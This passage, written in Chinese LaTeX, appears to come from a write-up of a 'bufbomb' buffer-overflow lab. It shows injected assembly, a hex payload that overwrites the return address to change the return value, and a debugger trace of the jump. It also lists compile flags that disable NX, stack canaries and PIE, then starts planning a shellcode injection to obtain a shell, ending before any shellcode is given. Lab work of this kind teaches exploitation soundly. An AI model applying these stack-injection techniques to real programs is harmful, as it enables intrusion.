 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
当跳转到0x80492d7后，这一切就像无事发生，只不过返回值，也就是 \texttt{eax}会被改成0xdeadbeef。\footnote{我们可以使用\href{https://docs.pwntools.com/en/stable/asm.html}{PWNTools中的ASM模块}来将汇编代码编译成字节码。}

\begin{lstlisting}[language={[x86masm]Assembler}]
    push 0xdeadbeef
    push 0x80492e0
    ret

    ;payload: 68EFBEAD DE68E092 0408C300 00000000 00000000 00000000 EBP ADDR
\end{lstlisting}

\begin{lstlisting}[style=DOS]
    0x80492a7  <getbuf+31>    mov    eax, 1
    0x80492ac  <getbuf+36>    leave  
    0x80492ad  <getbuf+37>    ret    
     ↓
    0xffffd380                push   0xdeadbeef
  ► 0xffffd385                push   test+50                       <0x80492e0>
    0xffffd38a                ret    
     ↓
    0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
    0x80492e6  <test+56>      push   eax
    0x80492e7  <test+57>      call   printf@plt                     <printf@plt>
  
    0x80492ec  <test+62>      add    esp, 0x10
    0x80492ef  <test+65>      nop
\end{lstlisting}

跳转到0x80492e0也就意味着跳过了push第二个参数。因此，我们可以直接通过栈操作到给第二个参数赋值。

当然，既然我们可以执行任意汇编代码了，那我们有很多种方法来使得输出达到我们想要的结果。

\subsection{solution4/彩蛋}

\begin{itemize}
    \item elf file:  \texttt{bufbomb-no-nx}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb-no-nx -g -no-pie -fno-stack-protector -O0 -z execstack
    \item guard: no PIE, no Canary, no NX, no ASLR
\end{itemize}

既然我们可以执行任意汇编代码，那我们为什么不试着拿Shell权限呢？首先我们需要找到一个放置Shellcode的地方。

回到我们前面给到的这个结构：\begin{lstlisting}[style=DOS] shellcode + padding + ebp + shellcode's start addr \end{lstlisting}
\end{document}
